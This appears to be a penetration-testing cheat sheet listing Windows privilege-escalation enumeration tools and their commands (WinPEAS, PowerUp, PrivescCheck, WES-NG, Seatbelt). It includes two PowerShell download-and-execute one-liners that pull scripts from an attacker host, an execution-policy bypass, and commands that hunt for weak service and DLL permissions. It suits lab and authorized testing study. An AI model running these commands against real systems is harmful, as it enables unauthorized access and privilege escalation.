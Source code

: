 # Automation

### 1: WinPEAS  Author:https://github.com/carlospolop/PEASS-ng/releases

### 2: Privesccheck (Set -ExecutionPolicy Bypass -Scope process -Force) Author: https://github.com/itm4n/PrivescCheck

### 3: Windows Exploit Suggester - Next Generation (WES-NG) Author: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

### Systeminfo > txt file

### wes.py --update

### 4: Metasploit (multi/recon/local_exploit_suggester)

### 5: PowerSharpPack https://github.com/S3cur3Th1sSh1t/PowerSharpPack

    iex(new-object net.webclient).downloadstring('http://ATTACK_IP:PORT/PowerSharpPack.ps1')

### Then

    PowerSharpPack -winPEAS

### 6: Invoke-WinPEAS https://gist.github.com/S3cur3Th1sSh1t/d14c3a14517fd9fb7150f446312d93e0#file-invoke-winpeas-ps1

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-winPEAS.ps1')

    Invoke-winPEAS >> .out

### 7: PowerUp

##### All checks

    Invoke-AllChecks

##### Get services with unquoted paths and a space in their name.

    Get-UnquotedService -Verbose

##### Get services where the current user can write to its binary path or change arguments to the binary

    Get-ModifiableServiceFile -Verbose

###### Get the services whose configuration current user can modify.

    Get-ModifiableService -Verbose

##### DLL Hijacking

    Find-ProcessDLLHijack
    Find-PathDLLHijack

### 8: Other

##### PrivescCheck: https://github.com/itm4n/PrivescCheck

    . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended

    .\beRoot.exe
    .\winPEAS.exe
    .\Seatbelt.exe -group=all -full

##### Privesc: https://github.com/enjoiz/Privesc

    Invoke-PrivEsc
